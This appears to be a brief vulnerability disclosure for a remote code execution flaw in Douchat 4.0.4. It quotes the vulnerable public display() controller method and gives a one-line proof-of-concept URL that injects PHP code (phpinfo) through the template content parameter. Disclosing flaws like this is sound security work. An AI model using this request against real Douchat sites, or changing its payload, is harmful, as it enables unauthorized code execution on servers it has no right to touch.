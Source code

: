 # Douchat4.0.4-RCE

Douchat's MobileBaseController.class.php page can be triggered by any template because the display method is set to public, which can trigger RCE vulnerability.

Core code
```
    public function display($templateFile='',$charset='',$contentType='',$content='',$prefix='') {
        global $_G;
        if (empty($templateFile)) {
            $templateFile = $_G['addon_path'] . 'View/' . CONTROLLER_NAME . '/' . ACTION_NAME . C('TMPL_TEMPLATE_SUFFIX');
        } else {
            $tempArr = explode('/', $templateFile);
            switch (count($tempArr)) {
                case 1:
                    $templateFile = $_G['addon_path'] . 'View/' . CONTROLLER_NAME . '/' . $tempArr[0] . C('TMPL_TEMPLATE_SUFFIX');
                    break;
                case 2:
                    $templateFile = $_G['addon_path'] . 'View/' . CONTROLLER_NAME . '/' . $tempArr[0] . '/' . $tempArr[1] . C('TMPL_TEMPLATE_SUFFIX');
                    break;
                default:
                    break;
            }
        }
        if (!is_file($templateFile)) {
            E('模板不存在:'.$templateFile);
        }
        parent::display($templateFile,$charset,$contentType,$content,$prefix);
    }
```
Direct rendering of content without security detection before parent :: display
POC:
```
index.php?s=/Mp/MobileBase/display&templateFile=././index.php&prefix=&content=<php>phpinfo();</php>
```
